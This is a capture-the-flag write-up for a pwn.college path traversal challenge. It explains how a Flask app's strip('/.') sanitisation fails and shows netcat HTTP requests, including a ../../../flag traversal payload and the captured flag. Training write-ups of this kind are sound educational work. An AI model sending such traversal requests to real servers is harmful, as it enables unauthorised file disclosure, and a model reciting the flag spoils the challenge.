 # 🕵️‍♂️ Challenge: Path Traversal 2

**Category**: Web Security  
**Platform**: pwn.college  
**Level**: Intermediate  
**Vulnerability**: Path Traversal  
**Goal**: Read the `flag` file by bypassing directory restrictions.

---

## 🧩 Description

We’re given a Flask web app with endpoints at `/data` and `/data/<path>`, which serve files from the `/challenge/files/` directory. Our goal is to access the `flag` file located outside this directory.

---

## 🔎 Recon

### Step 1: Basic GET request

```bash
printf "GET /data HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Response:
```bash
Returns the content of index.html and lists available fortune files.
```
The endpoint works and hints at the existence of deeper files inside /files/fortunes.


---

## 🧠 Vulnerability Insight
The server code builds file paths like this:
```bash
requested_path = app.root_path + "/files/" + path.strip("/.")
```
The bug is in the use of .strip("/."). It removes only leading/trailing slashes and dots, but not sequences like ../../../. So, path traversal is still possible!
---

## Exploiting Path Traversal

### Step 2: Attempt to access directory (Fails)
```bash
printf "GET /data/fortunes HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
This returns a 500 error — probably because it's trying to read a directory, not a file.

### Step 3: Path traversal to access flag
```bash
printf "GET /data/fortunes/../../../flag HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Success! This bypasses the file restriction and accesses the flag.

Response:
```bash
pwn.college{oDarDRBzk56F2i1vM_ERNz7PJ7U.QXyYTN2wSM0IzMyEzW}
```

---

## Flag
```bash
pwn.college{oDarDRBzk56F2i1vM_ERNz7PJ7U.QXyYTN2wSM0IzMyEzW}
```

---
